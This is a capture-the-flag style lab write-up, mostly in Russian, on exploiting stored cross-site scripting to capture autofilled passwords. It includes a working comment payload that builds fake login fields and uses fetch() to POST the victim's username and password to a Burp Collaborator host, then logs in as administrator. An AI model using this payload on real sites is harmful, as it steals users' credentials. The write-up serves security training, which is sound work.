





# Exploiting cross-site scripting to capture passwords

## Theory

<h3>Использование межсайтовых сценариев для перехвата паролей</h3>

В наши дни у многих пользователей есть менеджеры паролей, которые автоматически заполняют их пароли. Вы можете воспользоваться этим, создав ввод пароля, прочитав автоматически заполненный пароль и отправив его на свой собственный домен. Этот метод позволяет избежать большинства проблем, связанных с кражей файлов cookie, и даже может получить доступ ко всем другим учетным записям, где жертва повторно использовала тот же пароль.

Основным недостатком этого метода является то, что он работает только с пользователями, у которых есть менеджер паролей, выполняющий автозаполнение паролей.

## Writeup

Главная страница:


Перейдем к посту и спустимся в низ страницы. Мы можем заметить поле для комментария.



Запустим Burp Collaborator Client и скопируем DNS.



Запишем в поле комментария наш эксплоит, вставив скопированный ранее DNS. Код эксплоита:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://5ekw2z3agg276t39c94v71kc93ft3i.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```



Проверим Burl Collaborator Client. Там мы можем обнаружить данные пользователя.



Логинимся под администратора и получаем ответ от сервера.

